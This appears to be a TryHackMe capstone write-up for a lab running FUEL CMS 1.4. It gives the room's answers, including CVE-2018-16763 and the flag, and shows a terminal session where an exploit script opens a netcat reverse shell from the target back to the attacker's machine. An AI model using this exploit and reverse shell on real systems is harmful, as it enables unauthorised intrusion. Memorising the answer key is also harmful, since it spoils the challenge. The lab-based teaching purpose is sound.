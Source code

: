 ```yaml
---
Apply the knowledge gained throughout the Vulnerability Module in this challenge room.
---
```


###  Introduction 

![|333](https://assets.tryhackme.com/additional/vulnerability-module/bug-transparent.png)

Summarise the skills learnt in this module by completing this capstone room for the "Vulnerability Research" module. 

Ackme Support Incorporated has recently set up a new blog. Their developer team have asked for a security audit to be performed before they create and publish articles to the public. 

It is your task to perform a security audit on the blog; looking for and abusing any vulnerabilities that you find.


Let's get hacking
*No answer needed*

###  Exploit the Machine (Flag Submission) 


Deploy the vulnerable machine attached to this task & wait five minutes before visiting the vulnerable machine.
*No answer needed*



What is the name of the application running on the vulnerable machine?
*FUEL CMS*

What is the version number of this application?
*1.4*

What is the number of the CVE that allows an attacker to remotely execute code on this application?
Format: CVE-XXXX-XXXXX
*CVE-2018-16763 * (https://www.exploit-db.com/exploits/49487)

Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability.
Note: There are numerous exploits out there that can be used for this vulnerability (some more useful than others!)
*No answer needed*

(https://gist.github.com/anir0y/8529960c18e212948b0e40ed1fb18d6d#file-fuel-cms-py)

What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 fuelcms_exploit.py 10.10.162.224

 ______         _ _____ ___  ___ _____                                                                                                                                 
|  ___|        | /  __ \|  \/  |/  ___|                                                                                                                                
| |_ _   _  ___| | /  \/| .  . |\ `--.                                                                                                                                 
|  _| | | |/ _ \ | |    | |\/| | `--. \                                                                                                                                
| | | |_| |  __/ | \__/\| |  | |/\__/ /                                                                                                                                
\_|  \__,_|\___|_|\____/\_|  |_/\____/                                                                                                                                 
Tested on 1.4                                                                                                                                                          
Created by Ac1d                                                           

        Menu                                                              
                                                                          
exit     -      Exit app                                                  
shell_me -      Get a reverse shell (netcat)                              
help     -      Show this help                                            
                                                                          
fuelCMS$ shell_me
Enter your attacking machine IP:PORT $ 10.11.81.220:4444

Hope you had your listener ready!!                                        
No result
fuelCMS$ 


┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.11.81.220] from (UNKNOWN) [10.10.162.224] 43692
/bin/sh: 0: can't access tty; job control turned off
$ pwd
/var/www/html/fuelcms
$ cd /home/ubuntu
$ ls
flag.txt
$ cat flag.txt  
THM{ACKME_BLOG_HACKED}
$ exit
^C

```

*THM{ACKME_BLOG_HACKED}*

[[Exploit Vulnerabilities]]